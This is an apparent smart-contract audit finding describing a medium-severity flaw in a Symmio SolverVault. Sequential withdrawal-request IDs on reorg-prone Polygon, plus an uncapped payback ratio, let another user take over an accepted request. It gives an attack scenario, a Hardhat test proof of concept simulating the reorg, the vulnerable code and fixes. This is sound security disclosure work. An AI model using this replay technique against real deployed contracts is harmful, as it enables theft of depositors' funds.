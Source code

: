 Damp Viridian Bee

medium

# Withdrawal request takeover due to reorgs

## Summary

The vulnerability arises from the simple numerical identification of `WithdrawRequest` instances, especially considering the expected deployment on the Polygon blockchain, which frequently experiences blockchain reorganizations (reorgs). This could allow the manipulation of withdrawal requests.

Furthermore, [the absence of a maximum limit check](https://github.com/sherlock-audit/2023-12-symm-io/blob/main/solver-vaults/contracts/SolverVaults.sol#L239) on the `_paybackRatio` parameter in the `acceptWithdrawRequest` function exacerbates the issue, potentially enabling malicious actors to exploit the system. Refer to the code snippet here for more details.

## Vulnerability Detail

Withdrawal requests are tracked using sequential numbering in the `withdrawRequests` mapping. Since the protocol is planned for launch on the Polygon network, where reorgs are a frequent occurrence (as evidenced [here](https://polygonscan.com/blocks_forked)), there is a significant risk of withdrawal request manipulation.

In typical scenarios, as mentioned during discussion, the system's bot approves withdrawals quickly based on various criteria like current balance of the contract, state of the solver in the SYMMIO platform and the request amount. However, due to the fast-paced nature of these approvals, both the request and its acceptance might be nullified by a reorg. This situation could enable the submission and approval of altered withdrawal requests following a reorg.

Additionally, the lack of a cap on the `_paybackRatio` parameter in the `acceptWithdrawRequest` function creates the possibility of accepting ratios over 100%, leading to incorrect calculations and potential exploitation.

An example scenario is outlined below:

0. Ivory has deposited 500 tokens that were transferred to SYMM.
1. Some users have deposited 1000 tokens to Vault that were not yet deposited to SYMM.
2. Alice is requesting a withdrawal for 1 token and creates a request with ID = 333.
3. Balancer accepts Alice's request with payback ratio of 120% (Alice would get 1.2 tokens back).
4. REORG happens.
5. Ivory submits a new request to withdraw 500 tokens to his address. The request gets ID = 333 (freed by reorg).
6. Ivory resends Balancer's transaction that accepts.
7. Ivory claims the withdrawal and gets 600 tokens.

The same scenario will be valid for lower payback ratio values. The attacker can obtain more favorable conditions.

## PoC

A Solidity test case is provided to demonstrate this vulnerability, where an `other` user can take over a `user`s withdrawal request, with the approval of the system.

```solidity
    describe("Withdrawal request takeover due to reorgs", function () {
        const depositAmount = decimal(500, collateralDecimals)
        const withdrawAmountInCollateralDecimals = depositAmount
        const withdrawAmount = convertToVaultDecimals(depositAmount)

        it("should allow user to claim collateral", async function () {

            let snapshotId;
            let rec
            let request

            // User deposits
            await mintFor(user, depositAmount)
            await solverVault.connect(user).deposit(depositAmount)
            // Other user deposits
            await mintFor(other, depositAmount)
            await solverVault.connect(other).deposit(depositAmount)

            // Saving snapshot for further REORG simulation
            snapshotId = await network.provider.send('evm_snapshot');

            const requestIds = [0]
            const goodPaybackRatio = decimal(70, 16n)
            const requestId = 0

            // User requests withdrawal
            await solverVaultToken.connect(user).approve(await solverVault.getAddress(), withdrawAmount)
            rec = await user.getAddress()
            await expect(solverVault.connect(user).requestWithdraw(withdrawAmount, rec))
                .to.emit(solverVault, "WithdrawRequestEvent")
                .withArgs(requestId, rec, withdrawAmountInCollateralDecimals)
            request = await solverVault.withdrawRequests(0)
            expect(request[0]).to.equal(rec)
            expect(request[1]).to.equal(withdrawAmountInCollateralDecimals)
            expect(request[2]).to.equal(RequestStatus.Pending)
            expect(request[3]).to.equal(0n)
            
            // Balancer accepts withdrawal
            await solverVault.connect(balancer).acceptWithdrawRequest(0, requestIds, goodPaybackRatio)

            // User claims
            await expect(solverVault.connect(user).claimForWithdrawRequest(requestId))
                .to.emit(solverVault, "WithdrawClaimedEvent")
                .withArgs(requestId, await user.getAddress())
            request = await solverVault.withdrawRequests(0)
            expect(request[2]).to.equal(RequestStatus.Done)
            
            // Simulating REORG
            await network.provider.send("evm_revert", [snapshotId]);

            // Other user overwrites the withdrawal request
            await solverVaultToken.connect(other).approve(await solverVault.getAddress(), withdrawAmount)
            rec = await other.getAddress()
            await expect(solverVault.connect(other).requestWithdraw(withdrawAmount, rec))
                .to.emit(solverVault, "WithdrawRequestEvent")
                .withArgs(requestId, rec, withdrawAmountInCollateralDecimals)


            request = await solverVault.withdrawRequests(0)
            expect(request[0]).to.equal(rec)
            expect(request[1]).to.equal(withdrawAmountInCollateralDecimals)
            expect(request[2]).to.equal(RequestStatus.Pending)
            expect(request[3]).to.equal(0n)
            
            // Balancer accepts withdrawal (repeated tx)
            await solverVault.connect(balancer).acceptWithdrawRequest(0, requestIds, goodPaybackRatio)

            // Other user claims
            await expect(solverVault.connect(other).claimForWithdrawRequest(requestId))
                .to.emit(solverVault, "WithdrawClaimedEvent")
                .withArgs(requestId, await other.getAddress())
            request = await solverVault.withdrawRequests(0)
            expect(request[2]).to.equal(RequestStatus.Done)
        })
    })
```

## Impact

Balancer accepts an unknown withdrawal that can be changed (different amount and receiver), in worst case leading to funds loss. 

## Code Snippet

```solidity
function requestWithdraw(
    uint256 amount,
    address receiver
) external whenNotPaused {
    require(
        SolverVaultToken(solverVaultTokenAddress).balanceOf(msg.sender) >=
            amount,
        "SolverVault: Insufficient token balance"
    );
    SolverVaultToken(solverVaultTokenAddress).burnFrom(msg.sender, amount);

    uint256 amountInCollateralDecimals = collateralTokenDecimals >=
        solverVaultTokenDecimals
        ? amount *
            (10 ** (collateralTokenDecimals - solverVaultTokenDecimals))
        : amount /
            (10 ** (solverVaultTokenDecimals - collateralTokenDecimals));

    currentDeposit -= amountInCollateralDecimals;

    withdrawRequests.push(
        WithdrawRequest({
            receiver: receiver,
            amount: amountInCollateralDecimals,
            status: RequestStatus.Pending,
            acceptedRatio: 0
        })
    );
    emit WithdrawRequestEvent(
        withdrawRequests.length - 1,
        receiver,
        amountInCollateralDecimals
    );
}
```

## Tool used

Manual Review

## Recommendation

1. Implement a validation check on the `paybackRatio` to ensure it does not exceed 100%.
2. Use a hash-based identification for withdrawal requests to prevent the possibility of replacing an existing request with a modified one.